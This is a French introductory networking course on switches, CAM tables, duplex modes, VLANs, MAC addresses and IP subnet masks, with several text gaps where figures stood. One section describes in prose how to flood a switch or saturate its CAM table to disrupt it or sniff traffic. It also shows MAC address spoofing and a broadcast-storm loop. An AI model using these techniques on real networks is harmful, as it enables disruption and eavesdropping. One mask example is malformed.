Pour une information dans la table CAM, c'est pareil. On va considérer que cette information est valable un certain temps, mais une fois ce temps dépassé, on enlèvera l'information de la table CAM. Ainsi la table CAM sera mise à jour régulièrement et les données les plus anciennes seront effacées.
Prenons la table CAM précédente :
Port
@MAC
1
@MAC 23
3
@MAC 25
Table CAM
Nous allons y ajouter une colonne pour le TTL :
Port
@MAC
TTL
1
@MAC 23
90s
3
@MAC 25
120s
Table CAM avec le TTL
Nous voyons que le switch a deux informations et que la seconde est plus récente, car son TTL est élevé.
Dans 91s, si la machine 23 n'a pas parlé (ni la machine 25), la table CAM sera ainsi :
Port
@MAC
TTL
3
@MAC 25
29s
Table CAM avec le TTL mis à jour
Maintenant, si la machine 25 envoie une trame, le TTL va être remis à jour, car le switch sait que l'information "la machine 25 est branchée sur le port 3" est une information récente :
Port
@MAC
TTL
3
@MAC 25
120s
Table CAM avec le TTL mis à jour
Ainsi, la table CAM du switch se remplira ou se mettra à jour après chaque réception d'une trame, et elle se videra quand elle n'aura pas reçu de trame depuis longtemps.
Questions complémentaires
Le switch peut-il découvrir les adresses MAC des machines sur le réseau ?
Normalement non. Ce n'est pas son rôle, le switch est un élément passif. D'ailleurs, une machine qui est branchée sur un switch envoie la plupart du temps une trame au réseau quand elle voit que sa carte réseau est branchée, donc le switch la verra et mettra à jour sa table CAM.
Le switch a-t-il une adresse MAC ?
Là encore la réponse est non. Personne n'a besoin de parler avec le switch, donc il ne nécessite pas d'adresse MAC.
Cependant, certains switchs sont dits « administrables », ce qui veut dire que l'on peut se connecter dessus pour les configurer. Et dans ce cas, ils ont une adresse MAC pour être identifiés sur le réseau.
Exemple réel de table CAM
Voici en figure suivante la table CAM du switch du réseau de mes élèves... C'est beau, hein ?
On peut remarquer une chose amusante : il y a au moins 6 machines branchées sur le port 19 de mon switch !
Est-ce possible ou est-ce une erreur ?
C'est comme la SNCF, c'est possible ! En fait je ne peux pas brancher plusieurs machines sur un même port. Par contre, je peux brancher un switch sur le port de mon switch. Et donc toutes les adresses MAC des machines connectées à ce switch seront susceptibles d'apparaître sur le port du premier switch.
On se doute donc qu'ici il y a un switch branché sur le port 19 du switch que nous observons.
Trucs et astuces (de vilains...)
Connaissant maintenant le fonctionnement d'un switch, comment pensez-vous qu'on puisse faire pour gêner son fonctionnement s'il nous en prend l'envie ? Il y a plusieurs façons de le faire.
Méthode 1, saturation par envoi massif intelligent.
Si l'on envoie des tonnes de trames vers des adresses MAC inexistantes, que se passe-t-il ?
Le switch ne sachant pas vers quel port les envoyer, il va les envoyer vers tous les ports actifs... et va donc vite saturer !
Méthode 2, saturation de la table CAM.
Si l'on envoie des tonnes de trames en utilisant à chaque fois une adresse MAC de source différente, que se passe-t-il ?
La table CAM du switch va se remplir progressivement. Plus elle sera remplie, plus sa lecture par le switch sera longue, et plus cela induira des temps de latence importants... jusqu'à provoquer l'écroulement du switch. Quand il sera saturé et n'aura plus le temps de lire sa table CAM, il enverra directement les trames sur tous les ports. Ceci permettrait à un pirate de voir tout le trafic du switch...
Cependant, nous verrons par la suite qu'il existe des méthodes bien plus puissantes pour voir le trafic circulant sur un switch.
Nous savons donc à quoi sert un switch et comment il marche. Nous allons maintenant regarder les impacts que le switch a eus sur le réseau.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
A priori, on peut se dire que par rapport à un hub, un commutateur permet d'isoler les conversations. Ceci dit, les conséquences de l'isolation des communications sont énormes !
La commutation m'a tuer (petite référence...)
C'est la phrase qu'aurait pu dire le CSMA/CD. Vous vous rappelez le chapitre précédent ? Le CSMA/CD permet de s'affranchir des problèmes de collisions sur un réseau en bus.
Mais y a-t-il toujours des collisions sur un switch ?
Regardons les cas possibles de plus près (voir la figure suivante).
Imaginons que les machines 23 et 25 se parlent en même temps : y a-t-il collision ? On peut se dire que, vu que les messages vont être envoyés en même temps, ils vont se superposer. Mais ce serait oublier la structure des câbles à paires torsadées !
En paire torsadée, nous utilisons des fils différents pour la transmission et la réception, donc les messages vont se croiser, mais sur des fils différents !
Un schéma plus réel d'un switch serait celui de la figure suivante.
On voit bien ici les paires de réception et de transmission différentes. Il n'y a donc pas de collision dans ce cas.
Observons un autre cas : imaginons avec le schéma précédent que les machines 23 et 25 parlent en même temps à la machine 24.
Dans ce cas, les deux messages vont arriver en même temps sur la paire de réception de la machine 24, et badaboum, il y aura collision... ou pas.
Ce cas a été prévu et les switchs imaginés en conséquence.
En fait, le switch possède une mémoire dans laquelle il peut stocker une ou plusieurs trames quand il les reçoit. Il ne renvoie cette trame que si la paire de transmission de la machine à qui elle est destinée est libre. Ainsi, quand il a deux trames à envoyer sur la même paire de transmission, il envoie la première, puis la seconde. Il n'y a alors pas de collision.
Mais alors, il n'y a pas de collisions sur un switch ?
Non. Ou alors, c'est qu'on l'a configuré pour qu'il y en ait (nous le verrons par la suite).
Et donc s'il n'y a plus de collisions, ce n'est plus la peine de faire du CSMA/CD ?
Non plus ! Fini, exit le CSMA/CD ! Avant, les machines devaient écouter avant d'envoyer une trame pour vérifier que le réseau était libre, c'était le CSMA/CD. Maintenant, dès qu'une machine veut envoyer une trame, elle l'envoie, sans se soucier de savoir si quelqu'un d'autre est en train de parler, car elle est sûre et certaine que cela ne provoquera pas de collision !
Le fait d'abandonner le CSMA/CD porte un nom. On dit que la carte réseau fonctionne en full duplex.
À l'inverse, quand on fait du CSMA/CD sur un hub ou un câble coaxial, la carte réseau fonctionne en half duplex.
Le switch a donc révolutionné les réseaux, notamment en amenant le full duplex. Mais attention, nous allons voir comment le full duplex peut être aussi destructeur que performant.
Le full duplex m'a tuer
Le full duplex, c'est super ! Encore faut-il qu'il soit utilisé à bon escient, et ce n'est pas toujours le cas. Il peut parfois faire des ravages...
Imaginez qu'on branche 10 machines sur un hub. Nous sommes sur un hub, donc sur une topologie en bus, donc les machines doivent être en half duplex et faire du CSMA/CD.
Que se passe-t-il si la carte réseau de l'une d'entre elles est configurée en full duplex ?
Eh bien cela est très, très gênant. Tout simplement, car les neuf autres machines attendent que le hub soit libre avant de pouvoir parler, et si jamais quelqu'un parle en même temps qu'elles, elles considèrent qu'il y a une collision.
Alors que notre machine en full duplex ne se soucie de rien, parle quand elle veut, ne détecte aucune des collisions qui se produisent. Bref, c'est la m...
Pire encore, si cette machine est en train de télécharger un gros fichier, elle parle en permanence et empêche toutes les autres de parler. Le réseau est alors inutilisable pour nos neuf machines ! :o
Ah bon ? Mais moi je ne configure jamais ma carte pourtant ? Eh bien vous avez de la chance ! Ou plutôt nous avons la chance que les cartes réseau soient intelligentes et capables de déterminer seules le duplex à utiliser. Ainsi, quand une carte réseau est branchée, elle est capable de déterminer si elle doit fonctionner en full duplex ou en half duplex. Branchée à un hub, elle se mettra en half duplex ; branchée à un switch, elle se mettra en full duplex.
Et si je branche un hub à un switch ?
C'est une très bonne question ! Merci de l'avoir posée.
Le hub ne peut pas être configuré, il fait du half duplex, point. Il ne pourra de toute façon jamais faire autre chose, car il fonctionne comme une topologie en bus qui nécessite le CSMA/CD. Le switch va donc devoir s'adapter.
En fait, pas tout le switch, seulement le port du switch sur lequel est branché le hub. Ce port du switch fonctionnera en half duplex, et tous les autres ports en full duplex. Normalement le switch le détectera comme un grand, mais il est souvent possible de le modifier soi-même, à la main, sur les switchs administrables (voir la figure suivante).
Nous voyons ici que le port 21 du switch fonctionne en 100 Mbps et le FC indique le full duplex.
Et si jamais je branche une machine en half duplex sur un switch ?
Il peut arriver que la négociation de duplex ne fonctionne pas et qu'une machine soit en half duplex sur le port d'un switch en full duplex.
Dans ce cas cette machine se verra grandement pénalisée, car à chaque fois que quelqu'un lui parlera, elle ne pourra pas parler en même temps.
Ceci ne serait pas grave si l'on n'avait pas de broadcasts. Mais malheureusement, à chaque broadcast elle devra se taire et abandonner son envoi en cours. Cela se traduit par de grandes latences réseau.
Heureusement cette machine sera la seule touchée et le reste du réseau fonctionnera parfaitement !
En revanche, pour l'utilisateur en question, c'est la croix et la bannière. :(
Il faut donc en conclure que dans l'énorme majorité des cas, vous n'aurez jamais à vous soucier du duplex.
Cependant, il est bon de connaître ce fonctionnement, car si jamais vous êtes confrontés à un problème de ce genre et que vous ne le connaissez pas... bonne chance !
Faisons un petit point sur tout ce que nous avons vu sur le commutateur.
Un gain gigantesque
Oui, on peut dire que la commutation a apporté un gain gigantesque aux réseaux :
Les conversations sont isolées, ce qui apporte un gain en sécurité.
On peut recevoir en même temps que l'on envoie des données, ce qui double théoriquement le débit.
Chaque machine peut parler quand elle le souhaite et n'a pas à attendre que le réseau soit libre, on gagne encore en débit.
Merci le commutateur !
Maintenant que nous avons vu tous les bienfaits que le switch a apportés, nous allons voir une de ses fonctionnalités avancées qui a encore permis d'améliorer les réseaux.
J'ai nommé les VLANS !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Au-delà de la commutation (le fait d'aiguiller une trame vers un port), les switchs ont acquis de nouvelles capacités au cours du temps pour améliorer le fonctionnement des réseaux. Une de ces fonctionnalités est très répandue et intéressante, il s'agit des VLANs.
Qu'est-ce qu'un VLAN ?
Un VLAN est un LAN virtuel (ou virtual LAN en anglais).
Sachant qu'un LAN est un réseau local (ou Local Area Network en anglais) un VLAN est donc un réseau local virtuel.
Ça ne nous aide malheureusement pas beaucoup à mieux comprendre de quoi il s'agit... mais la réalité est beaucoup plus simple.
Cela revient à séparer certains ports d'un switch. Ils ne pourront donc plus communiquer ensemble, vraiment plus du tout.
Prenons un exemple, illustré en figure suivante.
Nous avons un switch de 10 ports sur lequel sont branchées six machines.
Nous souhaitons que ces groupes de machines ne puissent pas parler entre eux. Les trois premières parlent ensemble, les trois autres aussi, mais pas d'un groupe à l'autre. Les VLANs peuvent nous aider à faire cela !
L'idée du VLAN est de couper notre switch en plusieurs morceaux, comme si l'on avait plusieurs switchs.
Dans notre cas, nous allons créer deux VLANs. Un VLAN pour les trois machines de gauche, et un autre pour les trois machines de droite.
Ainsi, nous aurons fait en sorte qu'elles ne puissent plus parler entre elles d'un groupe à l'autre.
Voici à la figure suivante ce que cela donne.
Nous voyons ici en vert et en rouge les deux VLANs. Ainsi, les machines connectées aux ports appartenant au VLAN vert ne peuvent communiquer qu'avec le VLAN vert. Et de même pour les machines connectées aux ports appartenant au VLAN rouge. Par contre, il est impossible pour une machine connectée au VLAN vert de communiquer avec une machine connectée au VLAN rouge. C'est comme si l'on avait séparé le switch en deux petits switchs, chacun ayant sa propre table CAM, comme sur la figure suivante.

Quel est l'intérêt des VLANs ?
Dans l'exemple que nous avons choisi, l'intérêt n'est pas flagrant, mais imaginons que nous ayons à gérer une école, avec une administration, 100 enseignants et 1000 élèves. Nous avons alors plusieurs switchs répartis dans l'école. Des gros switchs de 256 ports ! (on appelle cela souvent des châssis.)
Il est intéressant de pouvoir segmenter ces switchs pour séparer les trois populations, pour que les élèves n'aient pas accès au réseau administratif ou à celui des enseignants, et que les enseignants n'aient pas accès au réseau administratif (pour changer leur fiche de paye par exemple). Plutôt que d'acheter 25 petits switchs de 48 ports, on en achète 5 gros de 256 ports.
En plus de la sécurité offerte par la séparation des réseaux, cela apporte de la facilité de configuration. Si je veux qu'un port passe d'un VLAN à un autre, il me suffit de le configurer sur le switch.
Je peux faire tout cela sans bouger de mon bureau d'administrateur réseau à travers une interface web d'administration du switch, comme vous pouvez le voir sur la figure suivante.
On voit ici que chaque port peut être positionné dans un VLAN donné.
Ici le port 1 est dans le VLAN 1 alors que le port 5 est dans le VLAN 2. Les machines connectées sur ces ports ne pourront pas communiquer ensemble.
Est-ce vraiment impossible de passer d'un VLAN à un autre ?
Non. Ce n'est pas impossible, mais presque. D'ailleurs, rien n'est impossible en réseau. Si c'est impossible, c'est juste que personne ne l'a encore fait ! ;)
Dans le cas des VLANs, cela a déjà été fait. Cela s'appelle du VLAN hopping.
Malheureusement pour nous, les failles de conception qui le permettaient ont été corrigées et le VLAN hopping n'est plus d'actualité (jusqu'à ce que quelqu'un trouve une nouvelle faille...).
vous savez maintenant connecter des machines ensemble ;
vous savez aussi créer un réseau local ;
vous pouvez faire communiquer des machines ensemble sur un réseau local ;
vous comprenez comment les machines communiquent et comment sont aiguillées les informations sur le réseau.
Il est maintenant temps de mettre en pratique tout ce que nous avons appris.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Dans ce chapitre, nous allons essayer de mettre en pratique ce que vous avez appris : il y aura des exercices et des petits TPs.
L'objectif est de comprendre comment les concepts réseau sont réellement mis en œuvre. Cela vous permettra de bien retenir les informations apprises, alors ne négligez pas cette partie pratique !
Nous allons rapidement voir où les informations que nous avons détaillées se situent sur notre machine. Pour suivre cette partie, vous devrez avoir un minimum de connaissances pour savoir où trouver les informations sous Windows, ainsi que quelques notions de Bash sous Linux. Si ces notions vous sont inconnues, faites de votre mieux, mais ce ne sera pas facile...
Sous Windows
Je ne suis pas tout à fait au goût du jour, et pour des raisons de performances, j'ai choisi de faire ma présentation sous Windows XP SP2. Cependant, quel que soit le système Windows sur lequel vous êtes, le principe reste le même : accéder aux informations de la carte réseau.
Sous Windows, nous allons la plupart du temps avoir deux méthodes pour récupérer des informations : grâce à l'interface graphique ou en ligne de commande. Sachant que parfois, seule l'une de ces deux méthodes permet de faire ce que nous souhaitons.
En ligne de commande
Ouvrez une invite de commande (cette fois je vous donne les infos, mais après vous devez être autonomes).
Cliquez sur Démarrer, Exécuter et tapez cmd, puis Ok. Une fenêtre noire s'affiche, semblable à celle que vous pouvez voir en figure suivante : c'est l'invite de commande !
La commande de base pour avoir des informations sur votre carte réseau est ipconfig.
Toutefois, pour avoir les informations que nous souhaitons, il va falloir en demander un peu plus à la commande ipconfig en lui mettant l'option /all, comme c'est indiqué sur la figure suivante.
Nous voyons encore beaucoup d'informations, mais celle qui nous intéresse est l'adresse de notre carte réseau, l'adresse MAC.
Nous pouvons la voir sous le nom d'adresse physique et nous voyons qu'ici sa valeur est 00-0C-29-E6-4B-D2.
Super, nous avons trouvé notre adresse MAC !
Nous avons vu aussi beaucoup d'autres informations, mais celles-ci ne nous intéresseront pas pour l'instant.
Passons à la partie graphique dans laquelle nous allons voir plus d'éléments.
À l'aide de l'interface graphique
L'interface graphique va nous permettre aussi d'accéder aux informations de notre carte réseau.
Il y a différents moyens d'arriver aux informations réseau. Nous allons passer par le Panneau de configuration. Cliquez sur Connexions réseau. Vous allez ensuite faire un clic droit sur Connexion au réseau local et choisir Propriétés (voir la figure suivante).
Pour accéder aux informations de la carte réseau, il faut cliquer sur Configurer, puis sur l'onglet Avancé.
Et comme vous pouvez le constater sur la figure suivante, toutes les informations propres à la carte réseau sont là !

Nous pouvons voir le full duplex dans la rubrique duplex intégral, ainsi que l'adresse MAC dans NetworkAddress. Par défaut, on ne la voit pas, car elle est inscrite en dur dans la carte réseau, mais ma carte permet de la modifier. Allons-y (voir la figure suivante) !
En validant, nous voyons que la modification est effective (voir la figure suivante) !
Nous venons de modifier notre adresse MAC !
Ça y est, nous sommes de vrais pirates ! :pirate:
Pas encore, mais comme vous le voyez, quand on maîtrise ce que l'on fait et qu'on le comprend, on peut vite sortir des sentiers battus et faire des choses intéressantes.
Regardons maintenant comment accéder à ces informations sous Linux.
Sous Linux
Accès par l'interface graphique...
Non, je rigole, on ne fait pas d'interface graphique sous Linux !
Tout simplement car, contrairement à Windows, tout est accessible par l'interface en ligne de commande, l'inverse n'étant pas vrai. Alors on prend dès maintenant les bonnes habitudes et on travaille avec l'interface en ligne de commande.
Accès en ligne de commande
La commande est presque la même sous Linux que sous Windows, à une lettre près. Il s'agit de la commande ifconfig :
Ça y est, vous avez achevé votre formation d'administrateur systèmes et réseaux, et vous venez d'être embauché par une petite société.
On vous explique brièvement l'architecture réseau employée (voir la figure suivante).
Il y a trois switchs connectés entre eux, et quelques machines branchées sur chaque switch.
Problème : la semaine dernière, le switch 5, qui est au milieu, est tombé en panne et les machines des switch 1 et 9 ne pouvaient alors plus se parler !
On vous demande donc de trouver une solution pour que le réseau puisse continuer de fonctionner, même si l'un des switchs tombe en panne.
Ni une ni deux, vous vous dites qu'il faudrait relier les switchs 1 et 9, comme ça si n'importe lequel des switchs tombe en panne, les deux autres seront toujours reliés...
Et patatras...
Une heure à peine après que vous ayez relié les switchs, le réseau ne marche plus, plus personne n'a accès à Internet et on n'arrive même plus à communiquer avec les machines sur le réseau local.
Que se passe-t-il ?
Vous venez de créer ce que l'on appelle une boucle de commutation et ceci est très grave !
Cette boucle est grave, car elle offre deux chemins possibles pour atteindre une destination.
Dans le cas de l'envoi d'une trame vers une machine, le switch empruntera ces deux chemins et la trame arrivera à destination deux fois. Pas de quoi fouetter un tchat !
Néanmoins, cela devient très gênant dans le cas d'un broadcast !
En effet, notre broadcast va être envoyé sur les deux chemins puis, arrivé au prochain switch, il va être renvoyé par les deux chemins possibles puis, arrivé au prochain switch, renvoyé par les deux chemins possibles, etc.
Et ainsi de suite jusqu'à ce que les switchs aient trop de broadcasts à traiter en même temps et soient complètement saturés.
Ce phénomène s'appelle une tempête de broadcasts (ou broadcasts storm en anglais).
Il est extrêmement puissant et peut faire écrouler les plus grands réseaux. J'ai déjà vu un réseau de 15 000 machines s'écrouler pendant plusieurs jours à cause d'un problème de ce genre.
Et il suffit de créer une simple petite boucle... Il suffit de relier les deux extrémités d'un câble à un même switch...
Vous pourrez tester chez vous, ça marche !
OK, mais alors comment répondre au problème initial ?
Il n'y a pas de solution... Du moins pas dans l'état actuel de nos connaissances.
Pour ceux qui veulent aller plus loin, vous pourrez vous renseigner sur le web à propos des technologies de spanning tree, fast spanning tree et 802.1d.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Il y a des profs de réseau qui sont bien, et Pierre Loisel en est un.
Cet enseignant a créé un logiciel de simulation réseau pour mieux apprendre à ses élèves comment fonctionnent ceux-ci. Si, ça, ce n'est pas du dévouement... Et en plus, il permet à chacun de s'en servir, alors profitons-en !
Il existe une version gratuite en ligne que vous pouvez télécharger ici. Ce fichier .zip contient le simulateur ainsi que la documentation et quelques exemples.
Nous allons donc nous servir du simulateur. Il n'y a pas d'installation à faire, c'est juste un exécutable qui n'a pas besoin d'être installé. Il a seulement besoin du framework .net pour fonctionner. Si jamais l'exécutable ne fonctionne pas, vous pouvez télécharger le Framework .Net. Ou télécharger une version plus récente si vous le souhaitez.
Vous pouvez maintenant faire un double-clic sur le simulateur.exe pour le lancer.
Vous êtes donc maintenant confortablement installés devant votre simulateur réseau.
Premiers pas avec 3 hubs
Vous allez, dans un premier temps, essayer de configurer votre réseau avec trois hubs que vous allez relier entre eux, sans utiliser le port le plus à droite du hub ! Ajoutez une machine sur chacun d'entre eux. Vous devriez avoir un schéma à peu près comme celui de la figure suivante.
Essayez maintenant de relier les deux hubs qui ne sont pas reliés directement, puis essayez d'envoyer une trame en broadcast (clic droit sur une carte réseau, émettre une trame, OK).
Que se passe-t-il et pourquoi ?
Il y a un message d'erreur nous indiquant qu'il y a une boucle ! C'est bien normal et vous le saviez déjà, non ?
Enlevez un des câbles et essayez à nouveau d'envoyer une trame en broadcast, puis en unicast vers une autre machine.
Quelle différence observez-vous entre les deux cas et pourquoi ?
Il n'y a pas de différence ! En effet, nous sommes sur un hub et les trames sont, de toute façon, envoyées à tout le monde, de la même manière qu'en broadcast.
On passe au switch !
Maintenant, faites un réseau avec un seul switch et trois machines, comme indiqué sur la figure suivante.
Faites un clic droit sur le switch et videz la table mac/port. Vous allez maintenant envoyer une trame unicast vers une des deux autres machines.
Que va-t-il se passer ?
Le switch envoie la trame vers toutes les machines, car il n'a pour l'instant aucune information dans sa table CAM.
Si l'on renvoie un paquet identique, que va-t-il se passer ?
La même chose ! Le switch a appris que la machine 1 était sur le port 1, mais il ne sait toujours pas sur quel port se trouve la machine destination.
Nous allons maintenant voir comment fonctionne le switch. Pour cela, nous allons suivre son fonctionnement en cliquant sur "aucun nœud tracé". On sélectionne ensuite sw1, que l'on passe du côté des nœuds tracés.
Envoyez une trame d'une machine à une autre et observez les étapes du fonctionnement du switch.
Maintenant ça va être à vous de jouer !
Passez en mode manuel et envoyez une trame d'une machine à une autre. C'est maintenant à vous de déterminer ce que doit faire le switch !
Nous avons fini nos exercices avec le simulateur, mais vous pouvez en explorer les fonctionnalités et vous amuser tant que vous voulez.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Dans cet exercice, nous allons essayer de comprendre le contenu d'une trame lorsqu'elle sort d'une machine sur le réseau. Prenons le réseau indiqué sur la figure suivante.
Imaginons que la station 1 envoie une trame à la station 3.
Écrivez la trame à la sortie de la machine 1 (vous connaissez maintenant le format d'une trame, cet exercice consistera simplement à mettre les bonnes informations dans les bons champs de l'en-tête Ethernet).
Rappel du format d'une trame:
Adresse MAC DST
Adresse MAC SRC
Protocole de couche 3
Données à envoyer
CRC
Solution:
Adresse MAC station 3
Adresse MAC station 1
Protocole de couche 3
Données à envoyer
CRC
C'était trop facile non ? :p
C'est normal, car nous avançons petit à petit. Nous verrons que nous referons cet exercice quand nous aborderons les autres couches du modèle OSI. Et cela se corsera un peu !
Félicitations si vous avez réussi tous ces exercices, nous pouvons maintenant passer à la suite.
Vous savez donc quel matériel utiliser pour mettre en place un réseau local ;
vous savez comment les machines communiquent sur un réseau local ;
le matériel de couche 2, le switch, aiguille les informations d'une machine à une autre sur un réseau local ;
vous savez où les informations de couche 2 sont situées sur votre machine.
En tant que professionnels de la couche 2, vous êtes prêts à passer à une couche plus complexe, la couche 3.
Nous connaissons presque tout des couches 1 et 2, il est grand temps de passer à la couche 3 qui va nous ouvrir de nouveau horizons.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous savons maintenant faire communiquer ensemble des machines qui sont branchées sur un même réseau. Nous allons maintenant voir comment leur permettre de communiquer avec des machines à l'extérieur de leur réseau.
D'ailleurs, nous utilisons le mot réseau, mais de quoi s'agit-il exactement ? Nous allons voir tous ces éléments dans ce chapitre qui est le chapitre phare du cours, car il concerne LE protocole d'Internet, IP.
C'est un peu réducteur pour les autres couches, mais pour une fois le nom est relativement en adéquation avec son rôle !
Donc ce qui nous intéresse, c'est de savoir dans un premier temps quel est son rôle. Nous savons déjà communiquer sur un réseau local : la couche 3 va nous permettre de communiquer entre réseaux !
Cela va nous permettre d'envoyer un message d'un réseau à un autre.
Mais comment envoyer un message à un réseau auquel nous ne sommes pas directement reliés et qui peut parfois être à l'autre bout du monde ?
Eh bien nous allons voir que les réseaux sont tous reliés entre eux, comme une chaîne.
Internet est comme un énorme ensemble de réseaux collés les uns aux autres, un peu comme des pièces dans une grande maison. Pour aller du salon à la chambre, on passe par plusieurs pièces.
C'est pareil pour les réseaux. Pour aller de mon réseau au réseau du Site du Zéro, je passe par plusieurs réseaux intermédiaires, comme indiqué sur la figure suivante.
D'ailleurs, on voit bien qu'il y a potentiellement plusieurs chemins possibles pour aller de mon réseau à celui du Site du Zéro.
Nous pouvons très bien illustrer ceci en utilisant la commande traceroute sous Linux (ou tracert sous Windows).
Ceci n'est pas un TP, mais juste une illustration du cours !
# traceroute www.siteduzero.com
traceroute to www.siteduzero.com (92.243.25.239), 30 hops max, 40 byte packets
1 labo.itinet.fr (10.8.97.1) 1.090 ms 1.502 ms 2.058 ms
2 neufbox (192.168.1.1) 9.893 ms 10.259 ms 10.696 ms
3 ivr94-1.dslam.club-internet.fr (195.36.217.50) 43.065 ms 43.966 ms 46.406 ms
4 V87.MSY1.club-internet.fr (195.36.217.126) 42.037 ms 43.442 ms 45.091 ms
5 TenGEC6-10G.core02-t2.club-internet.fr (62.34.0.109) 47.919 ms 48.333 ms 49.712 ms
6 gandi.panap.fr (62.35.254.6) 52.160 ms 51.409 ms 52.336 ms
7 po88-jd4.core4-d.paris.gandi.net (217.70.176.226) 54.591 ms 36.772 ms 36.333 ms
8 vl9.dist1-d.paris.gandi.net (217.70.176.113) 39.009 ms 40.223 ms 40.575 ms
9 lisa.simple-it.fr (92.243.25.239) 41.847 ms 44.139 ms 44.490 ms
Pour détailler un peu le contenu, chacune des lignes correspond à une machine que nous avons rencontrée sur Internet.
À la ligne 1 : labo.itinet.fr (10.8.97.1) 1.090 ms 1.502 ms 2.058 ms
nous avons rencontré la machine labo.itinet.fr en à peu près 2 millisecondes (rapide, non ?).
Puis on voit à la ligne 2 que nous passons par une neufbox, et aux lignes 3, 4 et 5 par club-internet (ce qui est normal puisqu'il s'agit de mon hébergeur).
Nous voyons ensuite que nous passons par un certain gandi.net. C'est un registraire et hébergeur connu. Et d'après la ligne 8, on dirait bien que le Site du Zéro est hébergé chez gandi.net, car c'est la dernière étape juste avant d'arriver au Site du Zéro qui est hébergé sur la machine lisa.simple-it.fr.
Nous voyons que nous passons par beaucoup de machines avant d'atteindre le Site du Zéro. Chacune de ces machines étant sur un réseau différent, nous passons par de nombreux réseaux. Plus exactement, nous sommes passés par 9 réseaux pour rejoindre le Site du Zéro.
Mais au fait, on en parle depuis longtemps, mais c'est quoi un réseau ?
Pour comprendre ce qu'est un réseau, nous allons commencer par aborder une notion hyperimportante de la couche 3. Car comme pour la couche 2, après avoir parlé du rôle de la couche 3 (interconnecter les réseaux), nous allons parler de son adresse.
Il y a bien une adresse aussi en couche 3, mais elle est nettement plus complexe à aborder...
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous savons dialoguer sur notre réseau grâce à la couche 2, il nous reste maintenant à en sortir pour aller voir ce qui se passe dehors, sur Internet.
Mais nous avons plusieurs problèmes...
Nous ne connaissons pour l'instant qu'une adresse, l'adresse MAC, qui sert sur notre réseau local.
Comment allons-nous pouvoir être identifiés par rapport à un autre réseau ? Comment allons-nous identifier les réseaux ? Vont-ils avoir une adresse ? Ou un nom ? S'il faut une adresse pour le réseau et une pour ma machine, nous faudra-t-il deux adresses de couche 3 ?
Nous allons répondre à ces questions dès maintenant. La réponse à toutes nos questions est dans l'adresse de couche 3 : l'adresse IP.
Deux adresses pour le prix d'une !
On commence à avoir plusieurs questions en suspens. C'est en prenant connaissance de l'adresse IP que nous allons y répondre.
Une adresse multifonction
L'adresse IP est en fait l'adresse du réseau ET de la machine.
Plus exactement, une partie de l'adresse représentera l'adresse du réseau, et l'autre partie l'adresse de la machine.
Mais d'abord, comment elle s'écrit cette adresse ?
Une adresse IP est codée sur 32 bits (soit 4 octets, car vous vous rappelez bien qu'un octet vaut 8 bits).
Afin de simplifier la lecture et l'écriture d'adresses IP pour les humains, nous avons choisi d'écrire les adresses avec la notation en décimal pointée. Cette dernière sépare les 4 octets sous forme de 4 chiffres décimaux allant de 0 à 255.
Cela donne par exemple : 192.168.0.1
Mais attention : au niveau des ordinateurs et des différents matériels réseau manipulant les adresses IP, ces dernières sont manipulées en binaire (base 2).
Pour plus d'information sur les différentes bases numérales, vous pouvez visiter les tutoriels associés :
Donc la partie réseau de l'adresse est 192.168, et la partie machine est 0.1. Super, on maîtrise les masques ! :D
Enfin, presque ! L'exercice que nous venons de faire était très facile, car la coupure entre les deux parties de l'adresse se faisait entre deux octets. Or, il arrive très souvent que la coupure se fasse en plein milieu d'un octet, et là, ça se corse...
Par exemple, si nous reprenons l'exemple précédent en utilisant le masque 255.255.240.0, qu'est-ce que cela donne au niveau de l'adresse ?
Nous allons voir cela, en nous penchant un peu plus sur les masques et leur utilisation.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Il se trouve que les calculs associés aux masques de sous réseau, c'est une plaie... C'est difficile, car les ordinateurs raisonnent en binaire, alors que nous, pauvres humains, nous travaillons en décimal. Or, passer du décimal au binaire n'est pas toujours facile. Prenons donc un exemple.
Calcul de la partie réseau et de la partie machine d'une adresse
On peut reprendre l'exemple précédent, l'adresse 192.168.0.1 associée au masque 255.255.240.0.
Comme on peut s'en douter, la coupure entre les deux parties de l'adresse ne va malheureusement pas se faire entre deux octets distincts, mais bien en plein milieu d'un octet.
Gloups...! On ne peut pas repasser en décimal étant donné que la coupure se fait au milieu d'un octet. En effet, on ne peut malheureusement pas écrire un demi-octet ou une partie d'un octet seulement. On ne peut parler qu'en binaire.
Par conséquent, à chaque fois que la coupure aura lieu au milieu d'un octet, il ne sera pas possible d'écrire les parties réseau et machine de l'adresse autrement qu'en binaire.
Mais comment le savoir ?
Nous allons voir que les valeurs prises par les octets dans un masque sont spécifiques et cela est dû à l'ordonnancement des 1 et des 0 dans le masque.
La contiguïté des bits
Dans un masque en binaire, il doit y avoir les 1 à gauche et les 0 à droite.
On ne peut pas mélanger les 1 et les 0.
Par exemple, ce masque est correct: 11111111.1111100000000000.00000000.
Mais celui-ci est incorrect: 11111111.11100011.00000000.00000000.
Ainsi, on retrouvera toujours les mêmes valeurs pour les octets d'un masque, qui sont les suivantes :
00000000 -> 0
10000000 -> 128
11000000 -> 192
11100000 -> 224
11110000 -> 240
11111000 -> 248
11111100 -> 252
11111110 -> 254
11111111 -> 255
Donc ce masque est correct: 255.255.128.0.
Et ce masque est incorrect: 255.255.173.0.
Et ce masque est encore incorrect: 255.128.255.0 (car il mélange des 0 et des 1).
Bien ! Nous savons ce qu'est un masque, comment il est composé et quelles sont les valeurs que chacun de ses octets peut prendre.
Il nous faut maintenant le mettre en pratique pour trouver les plages d'adresses associées à tel ou tel masque.
Calcul de plages d'adresses
C'est le gros morceau ! C'est ici que cela se complique. Mais rassurez-vous, nous allons aller pas à pas pour que tout le monde comprenne bien.
Calcul de la première et de la dernière adresse d'une plage
Nous allons donc prendre un exemple d'adresse associée à un masque et nous allons essayer de trouver la plage d'adresses ainsi définie.
Reprenons notre exemple, maintenant connu, à savoir l'adresse 192.168.0.1 associée au masque 255.255.240.0.
Votre mission, si vous l'acceptez, est de trouver la première et la dernière adresse du réseau auquel appartient cette adresse.
Et je fais ça comment, moi ?
